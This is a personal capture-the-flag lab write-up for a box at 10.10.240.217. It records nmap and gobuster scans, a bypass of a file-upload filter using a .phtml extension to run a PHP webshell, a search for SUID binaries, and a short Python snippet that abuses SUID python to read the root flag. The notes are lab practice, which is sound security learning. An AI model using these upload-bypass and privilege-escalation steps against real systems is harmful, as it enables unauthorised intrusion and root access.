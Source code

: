 # RECON

```{sh}
>> nmap 10.10.240.217 -sV

Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-17 09:58 CET
Nmap scan report for 10.10.240.217
Host is up (0.049s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.76 seconds

```


```{sh}
>>  gobuster dir -u http://10.10.240.217 -w ../../Tools/SecLists/Discovery/

Web-Content/common.txt 
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.240.217
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                ../../Tools/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2024/02/17 10:03:13 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/css                  (Status: 301) [Size: 312] [--> http://10.10.240.217/css/]
/index.php            (Status: 200) [Size: 616]
/js                   (Status: 301) [Size: 311] [--> http://10.10.240.217/js/]
/panel                (Status: 301) [Size: 314] [--> http://10.10.240.217/panel/]
/server-status        (Status: 403) [Size: 278]
/uploads              (Status: 301) [Size: 316] [--> http://10.10.240.217/uploads/]
Progress: 4625 / 4712 (98.15%)
===============================================================
2024/02/17 10:03:37 Finished
===============================================================

```

I can upload files, but not all types.

- idea: see if apache 2.2.49 has any known vulnerabilities (so far no luck)

- idea: check for other types of files that can be server side executed: 

    html    allowed     : served
    php     prohibited  : executed ?
    py      allowed     : downloaded
    asp     allowed     : downloaded
    jsp     allowed     : served
    perl    allowed     : downloaded

    conclustion: no
    - idea: how do i circumvent the prohibition? after trying some things with burp suite, i thought it is probably only checking the extension, so php is no go.
    
    other related types to php: phtml ---> executes as php :) After using the webshell from pentest monkey

(for some reason i could not get the reverse shell to work, so i used direct commands to get the user flag)

```{sh}
>> 'find / -type f -name "user.txt" 2>/dev/null'
>> 'cat /var/www/user.txt'
```

After this and by using the following command, i got the unsafe executable file:

```{sh}
>> find / -type f -perm /u+s -exec ls -la {} \;

-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 113528 Jul 10  2020 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 436552 Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 149080 Jan 31  2020 /usr/bin/sudo
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 40152 Oct 10  2019 /snap/core/8268/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/8268/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/8268/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/8268/bin/su
-rwsr-xr-x 1 root root 27608 Oct 10  2019 /snap/core/8268/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/8268/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/8268/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/8268/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/8268/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/8268/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Oct 11  2019 /snap/core/8268/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 10  2019 /snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/8268/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 106696 Dec  6  2019 /snap/core/8268/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/8268/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /snap/core/9665/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/9665/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/9665/bin/ping6
-rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/9665/bin/su
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /snap/core/9665/bin/umount
-rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/9665/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/9665/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/9665/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/9665/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/9665/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jan 31  2020 /snap/core/9665/usr/bin/sudo
-rwsr-xr-- 1 root systemd-resolve 42992 Jun 11  2020 /snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 May 26  2020 /snap/core/9665/usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 110656 Jul 10  2020 /snap/core/9665/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Feb 11  2020 /snap/core/9665/usr/sbin/pppd
-rwsr-xr-x 1 root root 43088 Jan  8  2020 /bin/mount
-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 26696 Jan  8  2020 /bin/umount
```


so /usr/bin/python has the suid set. By executing the following command, i got the root flag:

```{py}

import subprocess

subprocess.call(['find', '/','-type', 'f', '-name', 'root.txt'])
subprocess.call(['cat','/root/root.txt'])

```

Actually, this room made me decide on working in a simple php shell that worked in the browser, since i still was unable to get the reverse shell working. Also, i started getting a bash script working to do discovery on the system.


